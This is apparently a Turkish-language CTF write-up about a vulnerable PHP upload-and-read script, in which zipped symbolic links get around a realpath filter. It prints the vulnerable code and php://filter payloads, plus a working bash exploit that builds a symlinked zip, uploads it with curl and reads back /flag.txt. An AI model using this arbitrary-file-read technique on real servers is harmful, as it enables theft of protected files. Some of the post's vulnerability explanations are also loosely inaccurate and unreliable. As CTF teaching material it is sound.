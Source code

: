 ```yaml
---
title: "PHP Realpath ve SymLink Çözümü"
layout: post
---
```



PHP Realpath, Zafiyetli Scripti ve SymLink Kavramı



#### PHP Vuln Script

```php

<?php
session_start() or die('session_start');

$_SESSION['sandbox'] ??= bin2hex(random_bytes(16));
$sandbox = 'data/' . $_SESSION['sandbox'];
$lock = fopen($sandbox . '.lock', 'w') or die('fopen');
flock($lock, LOCK_EX | LOCK_NB) or die('flock');

@mkdir($sandbox, 0700);
chdir($sandbox) or die('chdir');

if (isset($_FILES['file']))
    system('ulimit -v 8192 && /usr/bin/timeout -s KILL 2 /usr/bin/unzip -nqqd . ' . escapeshellarg($_FILES['file']['tmp_name']));
else if (isset($_GET['file']))
    if (0 === preg_match('/(^$|flag)/i', realpath($_GET['file']) ?: ''))
        readfile($_GET['file']);

fclose($lock);
?>

```

#### Açıklama

İlk olarak, `session_start()` işlevi çağrılıyor. Bu, sunucu üzerinde bir oturum oluşturmayı sağlar. Eğer oturum zaten başlatılmışsa veya başlatılamıyorsa `(or die('session_start'))`, betik çalışmayı durdurur.
Ardından, `$_SESSION` süper global değişkeninde `sandbox` adında bir anahtar kontrol ediliyor. Eğer 'sandbox' anahtarı tanımlı değilse, `random_bytes(16)` işleviyle rastgele bir 16 baytlık dizi oluşturulup `bin2hex` işleviyle hexadecimal bir dizeye dönüştürülerek `$_SESSION['sandbox']` değişkenine atanır.
`sandbox` dizini, `data/` önekiyle birleştirilerek `$sandbox` değişkenine atanır.
Bir kilitleme dosyası `($sandbox . '.lock')` oluşturulup açılır `(fopen)`. 
Eğer dosya açılamazsa `(or die('fopen'))`, betik çalışmayı durdurur.
flock işlevi, kilitleme dosyasını kilitlemeyi dener. Eğer başka bir işlem tarafından dosya zaten kilitlenmişse veya kilitleme işlemi başarısız olursa `(or die('flock'))`, betik çalışmayı durdurur.
`mkdir` işleviyle `$sandbox` dizini oluşturulur ve izinleri `0700` olarak ayarlanır. Eğer dizin oluşturulamazsa, betik çalışmayı durdurur.
`chdir` işleviyle çalışma dizini `$sandbox` dizini olarak değiştirilir. Eğer dizini değiştiremezse, betik çalışmayı durdurur.
Eğer `$_FILES` süper global değişkeninde 'file' adında bir anahtar varsa, bir dosyanın yüklendiği kontrol edilir.
system işlevi kullanılarak bir komut yolu belirtilir `(/usr/bin/unzip)` ve yüklenen dosyanın geçici konumunu temsil eden `$_FILES['file']['tmp_name']` değeri işleme dahil edilir.
Bu komut, belirtilen dosyayı çıkarır `(unzip)` ve `$sandbox` dizinine yerleştirir. 
`ulimit -v 8192` komutu, işlemin sanal bellek sınırlamasını `8192` kilobayt olarak ayarlar. 
`/usr/bin/timeout -s KILL 2` komutu, unzip işleminin 2 saniye içinde tamamlanmaması durumunda işlemi sonlandırır.

`escapeshellarg($_FILES['file']['tmp_name']))` --> `escapeshellarg` işlevi, bir dizeyi güvenli bir şekilde kabuk argümanı olarak kullanılabilir hale getirmek için kullanılan bir işlevdir.

Eğer `$_GET` süper global değişkeninde 'file' adında bir anahtar varsa, bir dosyanın okunduğu kontrol edilir.

`$_GET['file']` değeri işlenir ve realpath işlevi kullanılarak dosyanın gerçek yolunu elde eder. Ardından `preg_match` işlevi kullanılarak gerçek dosya yolunun boş veya `flag` kelimesini içerip içermediği kontrol edilir.

`realpath($_GET['file'])` işlemi, belirtilen dosyanın gerçek yolunu döndürür. Eğer dosya yoksa veya gerçek yolu bulunamazsa `false` değeri döner.
`preg_match('/(^$|flag)/i', realpath($_GET['file'])`, gerçek dosya yolunu verilen düzenli ifadeye göre kontrol eder. İfade, dosya yolunun boş olup olmadığını veya `flag` kelimesini içerip içermediğini kontrol eder. `i` bayrağı büyük/küçük harf duyarlılığını kapatır.
Eğer gerçek dosya yolü belirlenen kriterleri sağlıyorsa, `readfile` işlevi kullanılarak dosyanın içeriği tarayıcıya gönderilir. Bu, dosyanın içeriğinin tarayıcıda görüntülenmesini sağlar.

Son olarak, `fclose` işlevi kullanılarak kilitleme dosyası kapatılır.

>File Path Check: `$_GET['file']` değeri doğrudan gerçek dosya yolu olarak kullanılıyor. Ancak, realpath işlevi bile olsa bu kullanım güvenli değildir. Kötü niyetli kullanıcılar, dosya yolu manipülasyonu yaparak izin verilmeyen dosyaları okuyabilir veya sistem dosyalarına erişebilir. Güvenli bir dosya yolu kontrolü yapılmalı ve yalnızca belirli bir klasördeki dosyalara erişime izin verilmelidir.

>Command Injection: Dosya yükleme işlemi sırasında `system` işlevi kullanılırken, yüklenen dosyanın güvenli bir şekilde işlenmediği görülüyor. Kötü niyetli kullanıcılar, `$_FILES['file']['tmp_name']` değeri üzerinden komut enjeksiyon saldırıları gerçekleştirebilir ve istenmeyen komutları sunucuda çalıştırabilir. Dosya yükleme işlemi güvenli bir şekilde yapılmalı ve yüklenen dosyaların içeriği doğrulanmalıdır.

>Information Disclosure: Bu istek, readfile işlevini kullanarak bir dosyanın base64 kodlanmış içeriğini tarayıcıya göndermek yerine, "php://filter/convert.base64-encode/resource=exploit" olarak adlandırılan özel bir dosyanın içeriğini kodlayabilir. Eğer bu dosya bir PHP betiği veya hassas bilgiler içeren bir dosya ise, bu sayede saldırgan, hedef sistemin kodunu sızdırabilir veya hassas verilere erişebilir.

>Local File Inclusion: `php://filter/convert.base64-encode/resource=exploit` ifadesi, dosya yolu keşfine yol açabilir. Saldırgan, "exploit" yerine diğer dosya veya dizin isimlerini deneyerek sistemdeki dosyaların listesini elde etmeye çalışabilir. Bu şekilde, saldırgan sistemin dosya yapısını inceleyebilir ve hassas verilerin yerini tespit edebilir.

#### Payload

```php
php://filter/convert.base64-encode/resource=flag.txt
php://filter/convert.base64-encode/resource=./flag.txt
```
Komutları ise bize flag değerini döndürecektir.Fakat önce yukarıda yapıldığı gibi dosya yükleme işlemi yapmak gerekir.

#### Bash Script 

```bash

#!/bin/bash

TARGET='http://example.com'
PAYLOAD='php://filter/convert.base64-encode/resource=exploit'

mkdir -p ExpDir
pushd ExpDir

mkdir -p "$PAYLOAD"
ln -s /flag.txt exploit
zip -y -r exploit.zip *

curl -H 'Cookie: PHPSESSID=OturumBilgisi' "$TARGET" -F "file=@exploit.zip"
curl -s -H 'Cookie: PHPSESSID=OturumBilgisi' "${TARGET}/?file=${PAYLOAD}" | base64 -d

echo
popd

```
#### Command

```py
mkdir file:
cd file:
touch flagx.txt
ln -s flagx.txt flag.txt
cd ..
zip -ry flag.zip file
```

mkdir file: "file" adında bir dizin oluşturur.
cd file: Oluşturulan "file" dizinine geçiş yapar.
touch flagx.txt: "flagx.txt" adında boş bir dosya oluşturur.
ln -s flagx.txt flag.txt: "flag.txt" adında sembolik bir bağlantı oluşturur ve bu bağlantıyı "flagx.txt" dosyasına yönlendirir.
cd ..: Önceki dizine geri döner.
zip -ry flag.zip file: "file" dizinini ve içeriğini "recursive" olarak sıkıştırır ve "flag.zip" adlı bir zip arşivi oluşturur.
Bu işlemler sonucunda, "file" dizini içinde "flagx.txt" adlı bir dosya ve bu dosyaya bağlantı olarak "flag.txt" adlı sembolik bir bağlantı oluşturulur. Ardından, "file" dizini ve içeriği "file_flag.zip" adlı bir zip arşivine sıkıştırılır.


"recursive" terimi, bir işlemi veya işlemi bir dizin ve içeriğindeki tüm alt dizinler üzerinde tekrarlayarak gerçekleştirmeyi ifade eder.

`zip -r` veya `zip -ry` komutları, zip arşivini oluştururken rekürsif olarak çalışır. Bu, belirtilen dizin ve alt dizinlerindeki tüm dosyaları ve alt dizinleri de dahil ederek bir arşiv oluşturur. Dosyaların ve alt dizinlerin içeriği, arşivin içinde hiyerarşik bir yapıda saklanır.

`zip -r` komutu, dizin ve dosyaları sıkıştırmak için kullanılırken, `zip -ry` komutu, sıkıştırma işlemi sırasında sembolik bağlantıları da korur. Bu, sembolik bağlantılara sahip dosyaların da arşivin içine dahil edileceği anlamına gelir.

Örneğin, zip -ry flag.zip file komutunu kullanarak "file" dizinini rekürsif olarak sıkıştırdığınızda, "file" dizini, içindeki dosyalar ve alt dizinler ile birlikte "flag.zip" adlı bir arşive dahil edilir. Bu şekilde, tüm dizin hiyerarşisi ve içerik korunarak sıkıştırma işlemi gerçekleştirilir.
`file:///flag.txt` komutu ilede çözüm sağlanır.

#### Symbolic Link (Sembolik Bağlantı)

Bir dosyanın veya dizinin başka bir dosyayı veya dizini işaret etmesini sağlayan bir dosya türüdür. 
Bir sembolik bağlantı, dosya sistemi üzerinde bir yol bağlantısı oluşturur ve bu sayede bir dosyanın birden fazla konumda bulunmasını sağlar.


#### Makale

Daha detaylı olarak belirttiğim makaleme ise burada ulaşabilirsiniz [PHP LFI-RFI-RCE](https://cagrieser.com/articles/PHP-LFI-RFI-RCE.pdf)

Aşağıda ki Python Scripti ile gerekli payloadları ayarlarıp dönen yanıtları dışarı aktarıp bakabilirsiniz.
[https://github.com/cagrieser/ReqWeb](https://github.com/cagrieser/ReqWeb)

Bunun dışında Burp Suite ilede Intruder yapabilirsiniz.

![Web](/img/qwb.gif)